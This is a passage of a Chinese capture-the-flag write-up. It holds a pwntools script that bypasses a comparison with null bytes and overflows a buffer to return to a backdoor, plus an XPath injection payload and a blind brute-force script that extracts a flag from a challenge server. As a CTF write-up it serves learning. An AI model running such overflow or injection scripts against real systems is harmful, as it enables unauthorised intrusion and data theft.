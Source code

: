 ```cpp
    decrypt(&dword_100F7[i]);
  }
  printf("%s\n", dword_100F7);
  return 0;
}
```

# PWN
## 捉迷藏

溢出点藏到一大堆分支的唯一结果里，不过过一遍27个getline就能找到溢出的位置。  
之后想让angr自动跑出来，好像效果并不理想，于是考虑手动推算

结果发现比较函数有经典的漏洞，只要让用户输入为截断符就会返回通过，所以直接送一堆0进去，不过最后一个因为XOR了首位，所以需要等于亦或的值。

拿到溢出点之后ret到后门就可以了
```python
from pwn import *

p=remote("39.106.27.2",36329)
p.sendafter(b"sbAmJLMLWm:", b"0 0 0 0 0 0 0 0 ")
p.sendafter(b"HuEqdjYtuWo:", b"\x00"*0x33)
p.sendafter(b"hbsoMdIRWpYRqvfClb:", b"\x00"*0x35)
p.sendafter(b"tfAxpqDQuTCyJw:", b"\x00"*0x22)
p.sendafter(b"UTxqmFvmLy:", b"0 0 0 9254 0 0 0 0 ")
p.sendafter(b"LLQPyLAOGJbnm:", b'\x3c'+b"\00"*0x29)
p.sendafter(b"gRGKqIlcuj:", b'a'*0xf+b'b'*8+p64(0x401331)*4)
p.interactive()
p.close()
```

# WEB
## babyjava(一血)
看大佬的博客：https://xz.aliyun.com/t/7791?page=1

前边的判断方法(root-user-username)博客里都有，而且是常见名爆破第一个字符就能猜到了  
`xpath=user1' and substring(name(/*[1]), 3, 1)='o'  and ''='`  
最后注到第二个flag上脚本，很快就能出来  
```python
import requests

for n in range(80):
    for i in "abcdef0123456789-{}":
        r = requests.post("http://eci-2zef43pmhep3nhrjor7d.cloudeci1.ichunqiu.com:8888/hello",
                          data={
                              "xpath": f"""user1' and substring((//user[position()=1]/username[position()=2]),{n},1) = '{i}'  and ''='"""
                          })
        if "information " not in r.text:
            print(i, end="")
            break
```
